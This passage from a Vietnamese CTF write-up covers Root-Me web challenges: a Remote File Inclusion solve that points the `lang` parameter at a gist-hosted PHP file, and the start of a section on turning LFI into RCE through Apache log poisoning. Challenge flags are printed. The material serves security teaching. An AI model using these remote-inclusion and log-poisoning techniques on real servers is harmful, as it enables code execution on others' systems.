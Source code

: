 ![image](https://hackmd.io/_uploads/Bym8_nqva.png)

Flag : lf1-Wr4pp3r_Ph4R_pwn3d

## [8. Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)

![image](https://hackmd.io/_uploads/S1M2dn5wp.png)

![image](https://hackmd.io/_uploads/ry4pYn5Dp.png)

Để ý trên URL có param `?lang=` và tên bài là Remote File Inclusion nên mình thử với load trang `https://www.google.com/` xem thì thấy thông báo lỗi 

![image](https://hackmd.io/_uploads/HyVwqnqwp.png)

Có vẻ như trang web sẽ tự động thêm đuôi `_lang.php` vào . Do vậy ta sẽ lên trang `gist.github.com` tạo một file tên là `a_lang.php` 

![image](https://hackmd.io/_uploads/S1FQs39Pa.png)

Payload cuối cùng sẽ là đường link tới code ta vừa tạo : `?lang=https://gist.githubusercontent.com/tadokun468/d7fd82c61d53e49e023792d58339e18a/raw/11fb55cefb873d4e60cd4794117a859219938c2b/a`

- Vì trang web sẽ tự động thêm phần extension nên trong đường link ta chỉ cần tên file là `a`  

Kết quả : 

![image](https://hackmd.io/_uploads/B1Lb23cw6.png)

Flag : R3m0t3_iS_r3aL1y_3v1l

# III. Từ LFI đến RCE

## 1. LFI to RCE via Log poisoning

Giả sử ta đang khai thác một máy chủ Apache bình thường. Theo mặc định, nó tạo ra hai tệp nhật ký được gọi là access_log và error_log trên máy chủ. Nếu ta giả mạo các bản ghi đó, thì có thể tải lên thành công mã PHP của riêng mình trên máy chủ. Những file đó có thể được lưu ở các địa chỉ sau `/var/log/apache2`

Có 2 cách để khai thác những file này tùy thuộc vào ta chọn file `access.log` hay `error.log`

### a. RCE via access.log

Poison the User-Agent in access logs:

![image](https://hackmd.io/_uploads/HywaoWowT.png)



Lưu ý: Các bản ghi (logs) sẽ thêm ký tự escape (`\`) vào dấu nháy kép nên hãy sử dụng dấu nháy đơn cho chuỗi trong code PHP payload.
